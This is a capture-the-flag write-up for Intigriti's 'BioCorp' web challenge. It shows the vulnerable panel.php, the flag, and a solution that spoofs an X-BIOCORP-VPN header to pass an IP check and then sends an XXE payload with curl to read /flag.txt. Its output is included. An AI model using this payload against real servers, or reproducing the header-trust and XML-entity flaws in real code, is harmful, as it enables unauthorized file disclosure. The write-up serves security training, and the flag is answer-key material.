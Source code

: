 # BioCorp [389 Solves]

## Description

> BioCorp contacted us with some concerns about the security of their network. Specifically, they want to make sure they've decoupled any dangerous functionality from the public facing website. Could you give it a quick review?
>
> `https://biocorp.ctf.intigriti.io`
>
> Attachments: biocorp.zip

<details><summary>Attachment file tree</summary>

```console
$ unzip -t biocorp.zip
Archive:  biocorp.zip
    testing: docker-compose.yml       OK
    testing: start.sh                 OK
    testing: web/                     OK
    testing: web/app/                 OK
    testing: web/app/contact.php      OK
    testing: web/app/services.php     OK
    testing: web/app/panel.php        OK
    testing: web/app/index.php        OK
    testing: web/app/assets/          OK
    testing: web/app/assets/js/       OK
    testing: web/app/assets/js/main.js   OK
    testing: web/app/assets/css/      OK
    testing: web/app/assets/css/style.css   OK
    testing: web/app/assets/images/   OK
    testing: web/app/assets/images/team-member2.png   OK
    testing: web/app/assets/images/hero-image.png   OK
    testing: web/app/assets/images/logo.png   OK
    testing: web/app/assets/images/team-member1.png   OK
    testing: web/app/assets/images/maintenance.png   OK
    testing: web/app/assets/images/energy-consulting.png   OK
    testing: web/app/assets/images/nuclear-energy.png   OK
    testing: web/app/assets/images/power-grid.png   OK
    testing: web/app/about.php        OK
    testing: web/app/header.php       OK
    testing: web/app/footer.php       OK
    testing: web/app/data/            OK
    testing: web/app/data/reactor_data.xml   OK
    testing: web/flag.txt             OK
    testing: web/Dockerfile           OK
No errors detected in compressed data of biocorp.zip.
```

</details>

<details><summary>panel.php</summary>

```php
<?php
$ip_address = $_SERVER['HTTP_X_BIOCORP_VPN'] ?? $_SERVER['REMOTE_ADDR'];

if ($ip_address !== '80.187.61.102') {
    echo "<h1>Access Denied</h1>";
    echo "<p>You do not have permission to access this page.</p>";
    exit;
}

if ($_SERVER['REQUEST_METHOD'] === 'POST' && strpos($_SERVER['CONTENT_TYPE'], 'application/xml') !== false) {
    $xml_data = file_get_contents('php://input');
    $doc = new DOMDocument();
    if (!$doc->loadXML($xml_data, LIBXML_NOENT)) {
        echo "<h1>Invalid XML</h1>";
        exit;
    }
} else {
    $xml_data = file_get_contents('data/reactor_data.xml');
    $doc = new DOMDocument();
    $doc->loadXML($xml_data, LIBXML_NOENT);
}

$temperature = $doc->getElementsByTagName('temperature')->item(0)->nodeValue ?? 'Unknown';
$pressure = $doc->getElementsByTagName('pressure')->item(0)->nodeValue ?? 'Unknown';
$control_rods = $doc->getElementsByTagName('control_rods')->item(0)->nodeValue ?? 'Unknown';

include 'header.php';
?>

<div class="container center-content">
    <h1>Welcome to the Control Panel</h1>
    <p>Here you can view reactor values:</p>

    <ul class="reactor-values">
        <li><i class="fas fa-thermometer-half"></i> Temperature: <?php echo htmlspecialchars($temperature); ?> °C</li>
        <li><i class="fas fa-tachometer-alt"></i> Pressure: <?php echo htmlspecialchars($pressure); ?> kPa</li>
        <li><i class="fas fa-cogs"></i> Control Rods: <?php echo htmlspecialchars($control_rods); ?></li>
    </ul>

    <button id="refresh-btn">Refresh Reactor Values</button>
</div>

<script>
    document.getElementById('refresh-btn').addEventListener('click', function () {
        location.reload();
    });
</script>

<?php include 'footer.php'; ?>
```

</details>

## Flag

INTIGRITI{c4r3ful_w17h_7h053_c0n7r0l5_0r_7h3r3_w1ll_b3_4_m3l7d0wn}

## Solution

- The panel.php is vulneable
- `$_SERVER['HTTP_X_BIOCORP_VPN']` PHP variable is user-controllable by `X-BIOCORP-VPN: 80.187.61.102` HTTP header.
  - [PHP: $_SERVER - Manual](https://www.php.net/manual/en/reserved.variables.server.php)
    > In addition to the elements listed below, PHP will create additional elements with values from request headers. These entries will be named HTTP_ followed by the header name, capitalized and with underscores instead of hyphens. For example, the Accept-Language header would be available as $_SERVER['HTTP_ACCEPT_LANGUAGE'].
- XML External Entity (XXE)

```console
$ vi xxe.xml

$ cat xxe.xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///flag.txt'>]>
<reactor>
    <status>
        <temperature>&test;</temperature>
        <pressure>1337</pressure>
        <control_rods>Lowered</control_rods>
    </status>
</reactor>

$ curl -s -H "X-BIOCORP-VPN: 80.187.61.102" -H "Content-Type: application/xml" -d @xxe.xml https://biocorp.ctf.intigriti.io/panel.php | grep -i INTIGRITI
        <li><i class="fas fa-thermometer-half"></i> Temperature: INTIGRITI{c4r3ful_w17h_7h053_c0n7r0l5_0r_7h3r3_w1ll_b3_4_m3l7d0wn} °C</li>
```
